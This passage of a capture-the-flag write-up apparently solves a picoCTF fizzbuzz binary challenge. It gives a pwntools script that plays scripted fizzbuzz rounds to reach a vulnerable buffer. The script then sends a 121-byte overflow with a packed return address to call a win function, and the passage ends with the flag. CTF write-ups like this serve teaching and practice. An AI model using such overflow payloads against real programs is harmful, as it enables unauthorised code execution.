

During the development of the exploit, I failed to consider a single case where the game value is higher than the necessary return. Fortunately this only happened to 1 case so it was pretty easy to hardcode.
```python
def play_fizzbuzz(io, numb):
    fail_run = False
    if isinstance(numb, tuple):
        fail_run = True
        numb = numb[0]

    if numb == 0:
        buf = io.recvuntil("? ")
        io.sendline("0")
        return

    buf = ""
    for i in range(1, numb):
        buf = io.recvuntil("? ")

        if i % 15 == 0:
            io.sendline("fizzbuzz")
            print("fizzbuzz")
        elif i % 5 == 0:
            io.sendline("buzz")
            print("buzz")
        elif i % 3 == 0:
            io.sendline("fizz")
            print("fizz")
        else:
            io.sendline(str(i))
            print(str(i))

    if fail_run:
        io.sendline("0")
    

conditions = [[0], [0], [0, 12, 0], [0, (3,0), 0], [0], [0], [0], [0], [0], [0], [0, 10, 0, 8, 0], [0, 7, 0, 13, 0, 15, 0, 7, 0, 7, 0, 16, 0, 16, 0, 10, 0], [0, 2, 0], [0, 3, 0, 17, 0, 13, 0, 5, 0, 7, 0, 3, 0, 7, 0, 7, 0, 6, 0, 4, 0, 12, 0, 13, 0, 5, 0, 7, 0, 13, 0, 2, 0, 12, 0, 11, 0, 9, 0, 14, 0, 4, 0, 5, 0], [5], [1]]

io = start()

i = 1
for path in conditions:
    print("\nAt func" + str(i) + ", transitioning to func"+ str(i+1))

    for seg in path:
        play_fizzbuzz(io, seg)
    
    i += 1

# at this point, it should be on the vulnerable buffer
win_func = 0x08048656
io.sendline(b'A'*121 + p32(win_func))
io.interactive()
```

The flag:



Honestly, my solution is terrible both in terms of efficiency and elegancy. But hey, it kinda works I guess.

**Solution**


Flag: picoCTF{y0u_found_m3}


[back](/index)